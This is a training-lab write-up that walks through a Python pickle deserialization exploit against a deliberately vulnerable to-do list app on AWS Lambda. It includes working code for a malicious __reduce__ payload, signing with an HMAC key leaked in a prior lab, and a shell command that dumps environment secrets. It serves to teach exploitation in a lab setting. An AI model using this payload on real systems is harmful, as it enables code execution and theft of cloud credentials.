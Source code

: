 # Lab 3

## Introduction

In the previous lab, we found and exploited an XXE bug in the application. Using that bug, we were able to disclose source code of the application, which had an HMAC key hard-coded.

In this lab, we will use that HMAC key to generate a signed, malicious pickle blob to gain code execution in the Lambda container.

## Methodology

We discovered early on (and confirmed via our source code l00t) that the application parses XML import files, extracts `data` and `hmac` elements, validates the data using the HMAC, and then unpickles the data. If the data doesn't pass the HMAC check, it is rejected - that's a perfectly valid way to mitigate deserialization issues. Unfortunately we were able to steal the HMAC key via another vulnerability, and we can now leverage a "feature" of Python's pickle deserialization to gain code execution. In this lab, we'll:

1. Craft a pickle deserialization exploit that steals environment variables
2. Generate an HMAC digest of that exploit that will pass the check
3. Automate payload generation with a Python script
4. Upload our exploit payload and observe the results

## Crafting a pickle deserialization exploit

The primary goal of our exploit will be to read the environment; because sensitive and dynamic data is often passed into the container via the environment, we are likely to find something useful there.

The Python `pickle` library is a serialization library that allows you to serialize Python objects; that is, flatten the object to a byte string, for transport to a remote Python interpreter. Once it reaches the destination, it can be deserialized and used as an object again.

To see how this works in practice, let's deserialize our payload from before. Grab the body of the `data` element from your exported to-do list, open a Python interpreter, and deserialize it as follows:

```
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode('KGxwMAooZHAxClZsaXN0TmFtZQpwMgpWTTBycmlzCnAzCnNWdGFza0Rlc2NyaXB0aW9uCnA0ClZGb28gdGhlIGJhcgpwNQpzVnRhc2tJZApwNgpWNzlMclhrTjBtNEdYS2kzawpwNwpzYShkcDgKVmxpc3ROYW1lCnA5ClZNMHJyaXMKcDEwCnNWdGFza0Rlc2NyaXB0aW9uCnAxMQpWRnJvYiB0aGUgYml6CnAxMgpzVnRhc2tJZApwMTMKVkNWbDNrSWVHYVc0cVFIZjcKcDE0CnNhKGRwMTUKVmxpc3ROYW1lCnAxNgpWTTBycmlzCnAxNwpzVnRhc2tEZXNjcmlwdGlvbgpwMTgKVkJhciB0aGUgZnJvYgpwMTkKc1Z0YXNrSWQKcDIwClZZTHZvSlU3N2xYZTMwaHoxCnAyMQpzYS4='))

# Output: [{u'listName': u'M0rris', u'taskDescription': u'Foo the bar', u'taskId': u'79LrXkN0m4GXKi3k'}, ...
```

The `data` element contains a list of all the tasks we exported, in a pickle-serialized format. Easy enough!

Before we craft our payload, let's revisit how the pickle-deserialization vulnerability works. When an object is being pickled, the pickling routine calls a class method `__reduce__` that returns a function (and its arguments) to be used as an entrypoint when the object is being unpickled (or, "deserialized").

With this background, we can craft a Python class that implements `__reduce__` such that the interpreter executes arbitrary code when it deserializes our Pickle object. Let's try a simple payload:

```
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.check_output, (('/bin/sh', '-c', 'echo "Hello World"'),))

def main():
    data = cPickle.dumps(RunBinSh())
    print('<data>' + base64.b64encode(data) + '</data>')

main()
```

Let's break that down...

The `__reduce__` method in this example returns a 2-tuple containing:

1. A function that the pickle library calls when deserializing the object on target
2. Arguments to that function

In this case, we will use  `subprocess.check_output` to invoke a shell and print the string "Hello World".

Run this Python script to see what it prints.

## Generating an HMAC to make it legit

Since we were able to capture the HMAC key in the previous lab, let's generate an HMAC digest of this pickle payload. Together with a valid HMAC, our malicious payload will pass the check and be considered valid by the Import function.

Remember, if the XML doesn't contain all valid fields or contains any invalid fields (including invalid Pickle data), we'll never reach the deserialization code.

Update your Python payload generator to calculate the HMAC, using our captured key:

```
import cPickle
import subprocess
import base64
import hmac
import hashlib

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.check_output, (('/bin/sh', '-c', 'echo "Hello World"'),))

def main():
    data = cPickle.dumps(RunBinSh())

    h = hmac.new('\x16q\x1c\x10\xfa\xa1\xf1\xf0}%\x95\xce\xa2\xf7\xd1\x8c-\rr\xe5\x91\x9eLS\x15\xbf\xe4\xc4\xd6F\x96\xbe', data, hashlib.sha256)
    digest = h.hexdigest()

    print('<?xml version="1.0"?>')
    print('<backup>')
    print('  <data>' + base64.b64encode(data) + '</data>')
    print('  <hmac>' + digest + '</hmac>')
    print('</backup>')

main()
```

Running that script should provide a valid document that we can import to our todo list.

## Uploading the payload

Run the Python script to generate your pickle exploit, saving the payload to disk:

```
python make_pickle.py >Desktop/pickle_exploit.xml
cat Desktop/pickle_exploit.xml
```

Now upload it using the Import functionality:

![Pickle hello-world exploit](./images/3-pickle-hw.png)

It worked!

Let's use this code execution to read the environment. Change your pickle exploit payload to run the command `/bin/sh -c declare`; this will dump the environment back to us!

Upload your payload to see the result:

![Getting the environment via pickle deserialization](./images/3-env.png)

See anything interesting?

## Extra credit

Can you learn the names of all the lists people have created today?

## Recap

We were able to leverage pickle deserialization to gain code execution on the Lambda container, leaking AWS secrets from the environment. In order to get the backend code to deserialize our pickle exploit, we needed to generate a valid HMAC digest using the key leaked in Lab 2.

## Vulnerabilities covered

| Designation | Description | Comment |
| :---: | --- | --- |
| A2:2017 | Broken Authentication | Pickle data validation is bypassed with leaked HMAC key |
| A5:2017 | Broken Access Control | (extra credit) |
| A8:2017 | Insecure Deserialization | Pickle deserialization is vulnerable to exploitation via `__reduce__` |
